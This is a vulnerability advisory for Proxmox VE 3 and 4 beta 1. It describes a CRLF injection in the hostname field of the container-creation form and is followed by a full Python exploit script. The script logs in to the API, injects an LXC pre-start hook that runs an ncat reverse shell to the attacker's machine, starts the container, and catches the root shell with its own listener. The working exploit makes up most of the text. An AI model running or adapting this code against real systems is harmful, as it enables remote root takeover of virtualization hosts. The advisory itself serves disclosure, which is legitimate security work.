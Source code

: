 CWE-915 FIXED
=====================================================================
Proxmox VE 3/4 Insecure Hostname Checking (Remote Root Exploit, XSS,
Privileges escalation)
=====================================================================

Description
===========

Proxmox is a popular virtualization solution based on KVM and Linux
containers.

A critical vulnerability has been found in Proxmox VE 3 (OpenVZ) and
Proxmox VE 4 beta 1 (LXC) in the
virtual machine creating form allowing authenticated remote users to
overwrite configuration files settings.


Configuration file overwriting
==============================

Because the Proxmox VE application doesn't check the
user-provided "hostname" POST parameter, it's
possible to overwrite configuration files using a CRLF injection.
In Proxmox VE 3, we successfully gained access to the host filesystem
from a container and elevated our container capabilities, allowing us to
obtain user credentials and sniff the network.
In Proxmox VE 4b1, because LXC allows "hooks" to execute commands, we
successfully gained root privileges on the host.
It's also possible to exploit Proxmox clusters.

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-915


# CODE
```python
#!/usr/bin/env python

import requests
import socket
import telnetlib
from threading import Thread
import argparse
from time import sleep


def exploit(target, username, password, vmid, template, realm, reverse, hostname):
        payload = "ncat %s %s -e /bin/sh" % reverse

        print "[~] Obtaining authorization key..."
        apireq = requests.post("https://%s/api2/extjs/access/ticket" %
        target,
        verify=False,
        data={"username": username,
        "password": password,
        "realm": realm})

        response = apireq.json()
        if "success" in response and response["success"]:
            print "[+] Authentication success."
            ticket = response["data"]["ticket"]
            csrfticket = response["data"]["CSRFPreventionToken"]
            createvm = requests.post("https://%s/api2/extjs/nodes/%s/lxc" % (target, hostname),
                verify=False,
                headers={"CSRFPreventionToken":
                csrfticket},
                cookies={"PVEAuthCookie": ticket},
                data={"vmid": vmid, "hostname": "sysdream\nlxc.hook.pre-start=%s &&" % payload,
                        "storage": "local",
                        "password": "sysdream",
                        "ostemplate": template,
                        "memory": 512,
                        "swap": 512,
                        "disk": 2,
                        "cpulimit": 1,
                        "cpuunits": 1024,
                        "net0": "name=eth0"})
            if createvm.status_code == 200:
                response = createvm.json()
                if "success" in response and response["success"]:
                    print "[+] Container Created... (Sleeping 20 seconds)"
                    sleep(20)
                    print "[+] Starting container..."
                    startcontainer = requests.post("https://%s/api2/extjs/nodes/%s/lxc/%s/status/start" % (target, hostname, vmid), verify=False, headers={"CSRFPreventionToken": csrfticket}, cookies={"PVEAuthCookie": ticket})
                    if startcontainer.status_code == 200:
                        response = startcontainer.json()
                        if "success" in response and response["success"]:
                            print "[+] Exploit should be working..."
                        else:
                            print "[!] Can't start container ! Try to start it manually."
                else:
                    print "[!] Error creating container..."
                    print response
            else:
                print "[!] Error creating Container. Bad HTTP Status code : %d" % createvm.status_code
        else:
            print "[!] Authentication failed - Check the credentials..."

def handler(lport):
        print "[~] Starting handler on port %d" % lport
        t = telnetlib.Telnet()
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind(("0.0.0.0", lport))
        s.listen(1)
        conn, addr = s.accept()

        print "[+] Connection from %s" % addr[0]

        t.sock = conn

        print "[+] Pop the shell ! :)"

        t.interact()

if __name__ == "__main__":
        print "[~] Proxmox VE 4.0b1 Authenticated Root Exploit - Nicolas Chatelain <n.chatelain[at]sysdream.com>\n"

        parser = argparse.ArgumentParser()
        parser.add_argument("--target", required=True, help="The target host (eg : 10.0.0.1:8006)")

        parser.add_argument("--username", required=True)
        parser.add_argument("--password", required=True)

        parser.add_argument("--localhost", required=True, help="Local host IP for the connect-back shell.")
        parser.add_argument("--localport", required=True, type=int, help="Local port for local bind handler")

        parser.add_argument("--vmid", required=False, default="999", type=int, help="A unique ID for the container, exploit will fail if the ID already exists.")

        parser.add_argument("--template", required=False,
default="local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz", help="An existing template in the hypervisor " "(default : local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz)")

        parser.add_argument("--realm", required=False, default="pam",choices=["pve", "pam"])

        parser.add_argument("--hostname", required=True, help="The target hostname")

        args = parser.parse_args()

        handlerthr = Thread(target=handler, args=(args.localport,))
        handlerthr.start()

        exploitthr = Thread(target=exploit, args=(args.target,args.username, args.password, args.vmid, args.template, args.realm,
(args.localhost, args.localport), args.hostname))
        exploitthr.start()

        handlerthr.join()
        ```
